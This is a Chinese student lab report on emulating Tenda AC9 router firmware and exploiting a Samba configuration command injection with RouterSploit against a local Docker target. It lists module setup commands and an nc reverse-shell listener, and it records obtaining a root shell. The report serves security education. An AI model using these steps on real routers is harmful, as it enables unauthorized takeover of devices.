

从扫描结果可以看出，目标设备 `127.0.0.1:32769` 的 HTTP 服务被识别为存在 `exploits/routers/tenda/ac9_samba_rce` 漏洞，说明 RouterSploit 成功发现了路由器固件中可能存在的 Samba 配置命令注入漏洞。终端最后显示 `Could not find default credentials`，表示未发现默认口令问题，但这并不影响漏洞扫描结果。至此，使用 RouterSploit 进行漏洞扫描的实验步骤完成，为后续漏洞利用阶段提供了明确的漏洞模块和目标端口。

### 3. 利用发现的漏洞

#### 3.1 加载并配置漏洞利用模块

在完成漏洞扫描后，RouterSploit 的 AutoPwn 扫描结果显示目标设备 `127.0.0.1:32769` 存在 `exploits/routers/tenda/ac9_samba_rce` 漏洞。根据实验文件要求，首先尝试使用 Samba 命令注入相关漏洞利用模块：

```text
use exploits/routers/generic/samba_command_injection
```

但实际运行时，RouterSploit 提示该模块路径不存在：

```text
Error: No module named 'routersploit.modules.exploits.routers.generic'
```

因此，本实验根据前一步 AutoPwn 扫描得到的实际漏洞模块，改用已经创建并被识别出的 Tenda AC9 Samba 命令注入模块：

```text
use exploits/routers/tenda/ac9_samba_rce
```

成功加载后，RouterSploit 进入 `Router Samba Command Injection` 模块界面。



随后查看该漏洞利用模块的可配置选项：

```text
show options
```

可以看到该模块需要配置目标 IP 地址、目标 HTTP 端口、本机反连 IP 地址和反连端口。其中，`path` 默认为 `/goform/SetSambaCfg`，即目标设备上存在漏洞的接口路径。



根据前面 FirmEmuHub 启动结果，目标 Web 服务运行在本机 `127.0.0.1` 的 `32769` 端口，因此设置目标地址和目标端口如下：

```text
set target 127.0.0.1
set port 32769
```



为了接收反弹 shell，需要设置本机用于反连的 IP 地址。由于目标固件运行在 Docker 容器环境中，因此使用 Docker 网桥地址作为 `lhost`。在另一个终端中执行以下命令查看 Docker 网桥 IP：

```bash
ip -4 addr show docker0
```

输出结果显示 `docker0` 网桥地址为 `172.17.0.1/16`，因此将 `lhost` 设置为 `172.17.0.1`。



回到 RouterSploit 终端，继续设置本机反连地址和监听端口：

```text
set lhost 172.17.0.1
set lport 4444
```



配置完成后再次执行：

```text
show options
```

确认参数设置结果如下：

```text
target    127.0.0.1
port      32769
lhost     172.17.0.1
lport     4444
path      /goform/SetSambaCfg
```

说明漏洞利用模块的目标地址、目标端口、本机反连地址和监听端口均已配置完成。



#### 3.2 启动 nc 监听器

为了接收目标设备反弹回来的 shell，需要在另一个终端窗口中启动监听器。本实验使用 `nc` 监听本机 `4444` 端口：

```bash
nc -lvnp 4444
```

终端输出如下：

```text
Listening on 0.0.0.0 4444
```

说明监听器已经成功启动，正在等待目标设备连接。



#### 3.3 执行漏洞利用

监听器启动后，回到 RouterSploit 终端，在已配置好的 `Router Samba Command Injection` 模块中执行漏洞利用命令：

```text
run
```

RouterSploit 开始运行 `exploits/routers/tenda/ac9_samba_rce` 模块。终端输出显示目标设备可以正常响应，随后模块向目标接口发送包含反向 shell 的 Payload，尝试触发 Samba 配置接口中的命令注入漏洞。

```text
Running module exploits/routers/tenda/ac9_samba_rce...
Target is responding
This module does not verify vulnerability, it only attempts exploitation
Sending payload to establish reverse shell...
```



#### 3.4 接收反弹 Shell 并验证权限

漏洞利用命令执行后，`nc` 监听终端成功接收到来自目标容器的连接：

```text
Connection received on 172.17.0.3 48840
```

随后在反弹 shell 中执行命令验证当前权限：

```bash
whoami
```

返回结果为：

```text
root
```

说明已经成功获得目标设备的 root shell，漏洞利用成功。至此，本实验完成了从漏洞扫描、漏洞模块配置到反弹 shell 获取的完整过程，验证了目标 Tenda 路由器固件中 Samba 命令注入漏洞的可利用性。



## 五、实验问题


* **Python 依赖安装受系统环境限制。**
  在安装 RouterSploit 和 FirmEmuHub 依赖时，直接执行 `pip3 install -r requirements.txt` 出现 `externally-managed-environment` 报错。这是由于 Ubuntu 系统启用了 PEP 668 机制，限制用户直接向系统 Python 环境中安装第三方包。为解决该问题，实验中改为使用 `python3 -m venv venv` 创建虚拟环境，并通过 `source venv/bin/activate` 激活后再安装依赖，避免了对系统 Python 环境的影响。


* **实验文件中的模块路径与实际 RouterSploit 版本不完全一致。**
  在漏洞利用阶段（3.1 节），实验文件中给出的模块路径为 `exploits/routers/generic/samba_command_injection`，但在实际 RouterSploit 环境中执行该命令时，系统提示不存在 `routersploit.modules.exploits.routers.generic` 模块。结合前一步 AutoPwn 扫描结果，实际可用漏洞模块为 `exploits/routers/tenda/ac9_samba_rce`，因此后续漏洞利用阶段改用该模块完成实验。


## 六、实验总结

通过本次实验，我完成了基于 FirmEmuHub 和 RouterSploit 的 IoT 路由器漏洞扫描与利用过程。实验中首先使用 FirmEmuHub 启动 Tenda 路由器固件仿真环境，并通过本地端口成功访问 Web 管理界面，为后续测试提供了目标环境。

随后使用 RouterSploit 的 AutoPwn 模块对目标设备进行漏洞扫描，成功识别出 `exploits/routers/tenda/ac9_samba_rce` 漏洞。根据扫描结果配置对应漏洞利用模块，并设置目标地址、端口、本机反连地址和监听端口，最终通过 `nc` 成功接收到反弹 shell，执行 `whoami` 后返回 `root`，说明漏洞利用成功。

本次实验加深了我对 IoT 固件仿真、RouterSploit 漏洞扫描、Docker 网络映射以及反弹 shell 原理的理解。同时也认识到，路由器等嵌入式设备一旦存在命令注入漏洞，可能导致攻击者获得设备控制权限，因此在实际开发和部署中应重视输入校验、权限控制和固件安全更新。